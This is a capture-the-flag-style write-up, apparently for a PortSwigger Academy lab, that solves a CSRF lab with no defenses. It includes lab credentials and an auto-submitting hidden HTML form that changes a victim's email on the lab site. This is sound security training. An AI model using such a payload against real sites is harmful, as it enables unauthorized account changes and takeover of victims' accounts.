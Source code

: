# Cross Site Request Forgery (CSRF)

## Lab 1: CSRF vulnerability with no defenses

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: wiener:peter

### Sol :

Login with the credentials `wiener:peter` and update the email by giving new email in email box.

Find the request in the `HTTP history` of proxy.

Click `Go to exploit server` in the lab window.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/63f4ed20-c2f3-49bc-9b7d-196de1dc4761)

In body section, give following HTML code:

      <form method="POST" action="https://0a03006704daa24e806f67c500b50039.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="wiener%40web-security-academy.net">
    </form>
    <script>
        document.forms[0].submit();
    </script>

* Right-click on the request and select `Engagement tools -> Generate CSRF PoC`. Enable the option to include an `auto-submit script` and click `Regenerate`.
* Copy the HTML code and paste it into the exploit server body code.
* Change the email parameter value.
* Deliver it to the victim.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/a0cfa7ea-e6c1-47ae-a2cf-98a1b7320d09)

* Thus, the lab is solved.
